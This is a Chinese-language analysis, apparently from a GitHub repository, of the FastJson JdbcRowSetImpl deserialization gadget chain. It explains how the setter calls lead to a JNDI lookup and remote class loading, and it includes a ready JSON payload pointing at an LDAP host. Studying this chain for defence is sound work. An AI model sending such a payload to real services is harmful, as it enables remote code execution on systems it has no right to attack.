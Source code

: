 # FastJson-JDBCRowSetImpl利用链

介绍：

JDBCRowSetImpl利用链是FastJson反序列化漏洞利用链中的其中一条链，
位于com.sun.rowset.JDBCRowSetImpl，是JDK自带的类，默认存在，并且不需要额外依赖。

用作利用链的成因：

在JDBCRowSetImpl中有两个关键的属性和方法，
第一个是 setDataSourceName，
在这里的String name参数可控，
就可以设置一个JNDI地址，比如rmi://x.x.x.x:1099/Exploit

<img width="1137" height="420" alt="image" src="https://github.com/user-attachments/assets/6d312b1d-2e8b-47b1-b18d-35b136259490" />

第二个是 setAutoCommit，
在设置这个autoCommit参数的时候，JdbcRowsetImpl就会触发connect()方法，
内部调用lookup(dataSourceName)，
这个时候lookup就回去远程加载我们传入的dataSourceName，如果传入的是JNDI，那就会远程加载恶意对象。

<img width="1203" height="651" alt="image" src="https://github.com/user-attachments/assets/d4bf62d0-84a4-40a7-93d0-054d39426a7f" />

<img width="1620" height="1239" alt="image" src="https://github.com/user-attachments/assets/a1f8aa2a-da85-43f2-baaa-0664d6f114e3" />

Payload：

{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://192.168.26.1:1389/nlnvkb\",\"autoCommit\":true}

<img width="1860" height="351" alt="image" src="https://github.com/user-attachments/assets/a0b579ee-2d4b-41b7-808b-83012fa3ad2d" />

当调用parseObject(json)时，FastJson会自动调用目标类的setter方法，
刚才提到的setDataSourceName和setAutoCommit正好都是setter方法。

在setDataSourceName(String name)中把传入的值保存到成员变量dataSourceName，我们可以将它设置为JNDI地址。

在setAutoCommit(true) ，设置参数时会调用connect()方法，connet方法内部会执行lookup(dataSourceName)，

如果这个时候dataSourceName是一个JNDI地址，就会触发JNDI远程加载对象。

parseObject在反序列化时先是调用setDataSourceName()触发恶意JNDI地址，然后调用setAutoCommit()触发connect()，
之后connect()又在内部调用lookup(dataSourceName)，最后发起JNDI请求，远程加载对象。

总结：

Fastjson的@type机制会自动调用目标类的setter方法，setDataSourceName()参数可控——>传入恶意JNDI地址，
setAutoCommit(true)——>触发connect()——>connect()内部触发lookup(dataSourceName)——>JNDI远程加载类——RCE。























































